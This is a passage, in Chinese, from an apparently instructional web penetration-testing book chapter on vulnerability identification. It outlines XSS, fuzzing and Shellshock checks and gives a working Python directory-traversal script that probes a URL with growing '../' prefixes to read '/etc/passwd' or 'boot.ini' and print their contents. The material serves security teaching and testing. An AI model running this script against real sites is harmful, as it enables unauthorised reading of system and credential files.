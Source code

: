# 第三章漏洞识别

在本章中，我们将介绍以下主题：

*   基于 URL 的自动目录遍历
*   自动跨站点脚本（参数和 URL）
*   自动基于参数的跨站点脚本
*   自动模糊
*   jQuery 检查
*   基于头的跨站点脚本
*   壳震检查

# 导言

本章重点从前 10 名**开放式 web 应用程序安全项目**（**OWASP**中识别传统 web 应用程序漏洞。这将包括**跨站点脚本编制**（**XSS**）、目录遍历，以及其他简单到可以检查的漏洞，这些漏洞不足以保证它们自己的章节。本章提供了每个脚本的基于参数和基于 URL 的版本，以考虑可能发生的情况并降低单个脚本的复杂性。这些工具中的大多数都有精心设计的备选方案，例如 Burp 入侵者。在简化的 Python 中查看每个工具的好处是，它允许您了解如何构建和制作自己的版本。

# 基于 URL 的自动目录遍历

偶尔，网站使用不受限制的功能调用文件；这可以允许传说中的目录遍历或**直接对象引用**（**DOR**）。在此攻击中，用户可以使用易受攻击的参数调用网站上下文中的任意文件。这有两种操作方式：首先，通过提供一个绝对链接，如`/etc/passwd`，它表示从`root`目录浏览到`etc`目录并打开`passwd`文件；其次，向上移动目录以到达`root`目录并移动到预期文件的相对链接。

我们将创建一个脚本，试图打开 Linux 机器上始终存在的文件，即前面提到的`/etc/passwd`文件，方法是将 up 目录的数量逐渐增加到 URL 中的一个参数。它将通过检测表示文件已打开的词组 root 来识别它何时成功。

## 准备好了吗

标识要测试的 URL 参数。此脚本已配置为适用于大多数设备：`etc/passwd`应适用于 OSX 和 Linux 安装，`boot.ini`应适用于 Windows 安装。请参阅本例末尾的 PHP 网页，该网页可用于测试脚本的有效性。

我们将使用可通过`pip`安装的请求库。在作者看来，它在功能性和可用性方面都优于`urllib`。

## 怎么做…

确定要攻击的参数后，将其作为命令行参数传递给脚本。您的脚本应与以下脚本相同：

```
import requests
import sys
url = sys.argv[1]
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
up = "../"
i = 0
for payload, string in payloads.iteritems():
  for i in xrange(7):
    req = requests.post(url+(i*up)+payload)
    if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```
